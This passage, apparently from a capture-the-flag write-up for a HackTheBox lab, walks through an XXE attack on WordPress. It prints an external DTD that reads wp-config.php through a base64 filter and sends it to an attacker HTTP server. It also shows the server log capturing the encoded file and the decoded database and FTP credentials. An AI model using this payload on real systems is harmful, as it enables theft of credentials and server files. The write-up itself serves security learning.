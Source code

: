 ```
xxe.dtd

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:6666/?p=%file;'>" >

```

Now I start a php http server :

```
php -S 0.0.0.0:6666
```

As you can see the payload is uploaded :

![image text](/payload_success.png)

In my terminal session I received a base64 encoded information text : 
```
[Sat Nov 19 22:51:52 2022] PHP 8.1.7 Development Server (http://0.0.0.0:6666) started
[Sat Nov 19 22:52:03 2022] 10.10.11.186:45686 Accepted
[Sat Nov 19 22:52:03 2022] 10.10.11.186:45686 [200]: GET /xxe.dtd
[Sat Nov 19 22:52:03 2022] 10.10.11.186:45686 Closing
[Sat Nov 19 22:52:03 2022] 10.10.11.186:45694 Accepted
[Sat Nov 19 22:52:03 2022] 10.10.11.186:45694 [404]: GET /?p=PD9waHANCi8qKiBUaGUgbmFtZSBvZiB0aGUgZGF0YWJhc2UgZm9yIFdvcmRQcmVzcyAqLw0KZGVmaW5lKCAnREJfTkFNRScsICdibG9nJyApOw0KDQovKiogTXlTUUwgZGF0YWJhc2UgdXNlcm5hbWUgKi8NCmRlZmluZSggJ0RCX1VTRVInLCAnYmxvZycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICc2MzVBcUBUZHFyQ3dYRlVaJyApOw0KDQov
...[snip]...
KiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogRGF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAIFdvcmRQcmVzcyBkaXJlY3RvcnkuICovDQppZiAoICEgZGVmaW5lZCggJ0FCU1BBVEgnICkgKSB7DQoJZGVmaW5lKCAnQUJTUEFUSCcsIF9fRElSX18gLiAnLycgKTsNCn0NCg0KLyoqIFNldHMgdXAgV29yZFByZXNzIHZhcnMgYW5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==
```
After decoding it using **[CyberChef](https://gchq.github.io/CyberChef/)** I got the following output : 
```
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '********' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
...[snip]...
```